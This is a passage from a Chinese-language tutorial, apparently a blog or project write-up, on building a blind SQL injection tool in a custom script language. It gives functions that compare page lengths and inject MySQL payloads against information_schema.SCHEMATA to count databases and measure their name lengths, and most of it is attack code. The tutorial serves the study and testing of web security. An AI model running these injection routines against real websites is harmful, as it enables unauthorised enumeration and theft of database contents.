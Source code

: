 很简单，就是通过请求url得到页面的内容，然后判断是否和正常的长度相同，相同返回1，不相同返回0.

### 获取数据库的个数

首先我们先编写一个通用的获取长度的方法：其实就是一个递增的过程，使用while循环，一直进行递增，知道我们的页面不正确的时候就返回。

```js
function TakeLength(url,sentence,length){
	i = 0;
	while(JudgeRESEqule(url.URLEncode(sentence.i),length) == 1){
		i = ToInt(i+2);
	}
	if(JudgeRESEqule(url.URLEncode(sentence.(i-1)),length) == 1){
		return ToInt(i);
	}else{
		return ToInt(i-1);
	}
}
```

我们使用while循环一直调用前面写好的`JudgeRESEqule`函数，直到页面不正确则返回！

1. 第一个参数是url不带参数值的
2. 第二个参数是注入的语句
3. 第三个参数是页面的正确长度

写出这个基础函数之后我们就需要编写获取数据库个数的方法了：

```js
function GetDataBaseNum(url,length,ArgDefalutText){
	return TakeLength(url,ArgDefalutText." and (select count(SCHEMA_NAME) from information_schema.SCHEMATA) >",length);
}
```

这个方法写在MYSQLAttack.wker这个文件里面，因为我们现在要针对mysql进行编写了。

1. 参数1：检测的url
2. 参数2：正常的页面长度
3. 参数3：没有注入时候正常的参数（id=96这里的96就是正常的参数）

由于我们在MYSQLAttack.wker中使用了SQLAttack.wker的方法，所以我们需要引入这个文件：

```c++
#include ATTACKUTILS/SQLAttack.wker
```

这个方法其实无非就是调用我们之前写好的`TakeLength`方法得到返回错误时候的值。

### 获取数据库名称的长度

这个方法也是写在MYSQLAttack.wker当中的：

```js
function GetDataBaseLength(url,length,DataBaseindex,ArgDefalutText){
	return TakeLength(url,ArgDefalutText." and (SELECT char_length((SELECT SCHEMA_NAME from information_schema.SCHEMATA limit ".DataBaseindex.",1))) >",length);
}
```
